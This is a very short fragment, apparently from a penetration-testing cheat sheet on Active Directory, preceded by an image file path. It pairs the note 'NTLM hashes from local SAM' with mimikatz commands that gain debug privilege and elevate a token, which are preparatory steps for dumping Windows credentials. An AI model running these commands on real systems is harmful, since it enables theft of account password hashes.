 # Active Directory

NTLM hashes from local SAM.

`mimikatz # privilege::debug  
mimikatz # token::elevate`
